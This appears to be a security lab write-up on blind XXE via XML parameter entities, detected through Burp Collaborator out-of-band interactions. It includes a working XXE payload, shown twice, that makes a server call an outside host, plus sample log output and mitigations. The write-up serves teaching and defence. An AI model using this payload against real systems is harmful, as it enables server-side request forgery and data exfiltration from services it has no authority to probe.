 
# 1. Blind XXE with Out-of-Band Interaction via XML Parameter Entities

## 2. CVSS Score

**CVSS v3.1 Base Score: 9.1 (Critical)**
**CWE-611: Improper Restriction of XML External Entity Reference (‘XXE’)**

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A10:2021 – Server-Side Request Forgery (SSRF)**

---

## 4. Description of Vulnerability

This lab demonstrates a **blind XML External Entity (XXE)** vulnerability using **XML parameter entities** to exploit out-of-band (OAST) interaction channels. The application processes user-supplied XML and makes DNS or HTTP requests to a malicious server without directly reflecting the result in the response.

An attacker can insert a malicious parameter entity that triggers the application to request an attacker-controlled server (Burp Collaborator, in this case), allowing the attacker to infer if the XXE vulnerability exists by observing out-of-band interactions.

---

## 5. Detailed Explanation of What We Performed

In this scenario, we used **Burp Suite Professional** and its **Collaborator** feature to detect server-side interactions initiated by a malicious **XML parameter entity**. By embedding a payload with a collaborator subdomain, we were able to observe interactions that confirmed the XXE vulnerability, despite no direct data being returned by the server.

---

## 6. Step-by-Step Procedure

🔹 **Step 1: Visit the Target and Intercept the Request**

1. Navigate to a product page on the lab website.
2. Click **"Check stock"** to trigger the POST request.
3. Intercept the resulting **POST** request using **Burp Suite Proxy**.

🔹 **Step 2: Generate a Burp Collaborator Payload**

4. Go to the **Collaborator** tab in **Burp Suite**.
5. Click **"Copy to clipboard"** to generate a unique **Burp Collaborator subdomain**.

🔹 **Step 3: Inject the Malicious External Entity**

6. Modify the intercepted request to include the malicious XML payload. Insert the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
  <!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR-ID.burpcollaborator.net">
  %xxe;
]>
<stockCheck>
  <productId>123</productId>
  <storeId>1</storeId>
</stockCheck>
```

7. Replace `YOUR-COLLABORATOR-ID.burpcollaborator.net` with your actual **Burp Collaborator** subdomain.

🔹 **Step 4: Forward the Request and Monitor Collaborator**

8. Forward the modified request to the server using **Burp Suite**.
9. Return to the **Collaborator** tab and click **"Poll now"** to observe any incoming interactions.

🔹 **Step 5: Confirm Out-of-Band Interaction**

10. After a few seconds, the **Collaborator tab** should show **DNS** and/or **HTTP** interactions initiated by the server. This confirms the XXE vulnerability.

---

## 7. Impact of the Vulnerability

* **Out-of-Band Data Exfiltration**: Even though no direct data is returned, attackers can still exfiltrate data by triggering DNS or HTTP requests to an external server.
* **Internal System Interaction**: Through SSRF and XXE, attackers may probe and interact with internal resources.
* **Reconnaissance**: The attacker gains useful insights into the server's ability to resolve external entities, potentially aiding in more sophisticated attacks.

---

## 8. Recommendations and Mitigations

* **Disable DTD Processing**: Configure the XML parser to reject any `DOCTYPE` declarations or external entities entirely.
* **Use Secure XML Parsers**: Leverage XML parsers with secure defaults that disable XXE by default (e.g., **defusedxml** in Python).
* **Prevent Outbound Requests**: Configure server-side applications to block or restrict external HTTP/DNS requests.
* **Monitor DNS Traffic**: Keep an eye on DNS requests from the server that may indicate the exploitation of XXE vulnerabilities.

---

## 9. References

* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PortSwigger XXE Guide](https://portswigger.net/web-security/xxe/blind)

---

## 10. Proof of Concept

### Payload Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
  <!ENTITY % xxe SYSTEM "http://abc123xyz.burpcollaborator.net">
  %xxe;
]>
<stockCheck>
  <productId>123</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Collaborator Log Output:

```
[DNS] abc123xyz.burpcollaborator.net -> <source-ip>
[HTTP] GET / HTTP/1.1
Host: abc123xyz.burpcollaborator.net
User-Agent: Java/1.8.0
...
